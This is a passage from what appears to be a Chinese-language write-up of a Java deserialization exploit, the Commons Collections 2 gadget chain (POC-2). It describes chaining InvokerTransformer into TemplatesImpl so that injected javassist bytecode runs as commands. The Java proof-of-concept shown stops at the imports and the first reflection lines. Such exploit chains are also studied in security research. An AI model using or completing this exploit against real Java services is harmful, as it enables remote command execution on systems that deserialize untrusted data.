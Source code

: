 <img src="./images/4.png" alt="">

## POC-2
> 为了更好的符合实战利用中的要求，利用`InvokerTransformer`触发`TemplatesImpl`的`newTransformer`，从而读取恶意字节码从而进行执行命令，并且利用`javassist`和`TemplatesImpl`来进行构造

```java
package CommonsCollections2;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.*;
import java.io.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/29 1:37 上午
 */
public class CommonsCollectionsGadget2 {
    public static void CC2() throws NoSuchMethodException, IllegalAccessException, NoSuchFieldException, ClassNotFoundException, NotFoundException, CannotCompileException, IOException{
        Class c1 = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer");
        Constructor constructor = c1.getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
```